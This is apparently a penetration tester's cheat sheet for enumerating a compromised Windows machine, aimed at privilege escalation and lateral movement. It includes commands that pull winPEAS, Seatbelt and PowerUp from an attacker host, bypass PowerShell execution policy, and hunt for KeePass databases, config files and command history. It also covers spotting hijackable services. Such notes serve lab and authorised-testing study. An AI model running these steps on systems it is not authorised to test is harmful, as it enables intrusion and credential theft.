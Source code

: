 # Windows Enumeration
Having gained a foothold on a Windows machine by whatever mechanism the following items are important steps for us to gain situational awareness, with each item potentially proving critical to a successful effort at privilege escalation or lateral movement:

## Automatic Enumeration

### winPEAS
Below is a lengthy list of commands that you can make use of in the event that `winPEAS` & `seatbelt` are impossible to smuggle onto the machine or are blocked via AV somehow. But under most circumstances lets not be cringe and use the purpose-built tool to enumerate a Windows environment:

In Kali:
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
On the target machine:
```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
### Seatbelt
For `Seatbelt` search for `compiled seatbelt github download`, and grab the `Seatbelt.exe` file.
Transfer to target in the usual fashion:
```bash
python3 -m http.server 80
```
And run on the target:
```powershell
iwr -uri http://192.168.118.2/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```
### PowerUp.ps1
Nb. This tool (like most) should not be trusted implicitly always and if it offers no/insufficient usable information then manual techniques should be employed.
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

Look upon our exploitable shit ye mighty and despair!

## Manual Enumeration

### Username and hostname
```cmd
whoami
```
### Group memberships of the current user
```cmd
whoami /groups
```
### Our current privilege
```cmd
whoami /priv
```
### Existing users and groups
```powershell
Get-LocalUser
```
```powershell
Get-LocalGroup
```
```powershell
Get-LocalGroupMember adminteam
```
```powershell
Get-LocalGroupMember Administrators
```
CMD command for miscllelaneous info on a particular user:
```cmd
net user <username>
```
### Operating system, version and architecture
```powershell
systeminfo
```
### Network information
To list all network interfaces:
```powershell
ipconfig /all
```
To display the routing table and potentially enumerate links to other systems or networks that haven't yet been enumerated:
```powershell
route print
```
To enumerate the active network connections on a Windows system (with no DNS resolution):
```powershell
netstat -ano
```
### Installed applications
To enumerate all 32 bit applications installed on the machine:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
and for the 64 bit applications:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Nb. this is not necessarily a complete list, never forget to check the `C:\ProgramFiles*` directories, as well as the `C:\tools` and `Downloads` paths.
### Running processes
```powershell
Get-Process
```
To find the binary running that process:
```powershell
Get-Process | Select-Object Path
```
### Finding Critical Files
KeePass files:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
XAMPP Web Server config:
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
Misc. Data File Discovery:
```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

### Impersonation
If we have a GUI session then we can run a new session as a different user with:
```powershell
runas /user:admin cmd
```

### Command History
```powershell
Get-History
```
```powershell
(Get-PSReadlineOption).HistorySavePath | ForEach-Object {cat $_}
```

### Installed Windows Services
Necessary to run this in an RDP session since `Get-CimInstance` (and `Get-Service` for that matter) will produce permission denied errors in a shell or WinRM session:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
Get starting mode of a win32 service, in the event we can't restart it and this value is set to `Auto` then a system reboot could let us hijack the service having previously edited the executable:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<target service>'}
```

### icacls
Enumerate which users/groups have what privileges on a binary (nb. beneficial to use `icacls` over `Get-ACL` since the former will work on `cmd` as well!):
```powershell
icacls "C:\path\to\interesting.exe"
```
Mask to permissions mapping (nb. A preceding 'I' indicates the access right is inherited):

- F 	Full access
- M 	Modify access
- RX 	Read and execute access
- R 	Read-only access
- W 	Write-only access
